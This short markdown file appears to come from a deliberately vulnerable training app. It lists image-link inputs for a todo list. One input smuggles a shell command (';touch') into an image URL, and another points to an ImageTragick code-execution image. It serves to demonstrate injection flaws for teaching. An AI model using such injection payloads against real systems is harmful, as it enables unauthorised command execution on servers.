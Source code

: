 ### Example

```markdown
![alt text](https://raw.githubusercontent.com/W3Security/goof/feat/oreilly/exploits/w3security.png "Image todo item")
```

### Shell Command Injection

```markdown
![alt text](https://raw.githubusercontent.com/W3Security/goof/feat/oreilly/exploits/w3security.png;touch ./public/p0wned "Image todo item")
```

### Code Execution - ImageTragick vulnerability

```markdown
![alt text](https://raw.githubusercontent.com/W3Security/goof/master/exploits/imagetragick_rce1.png "Image todo item")
```
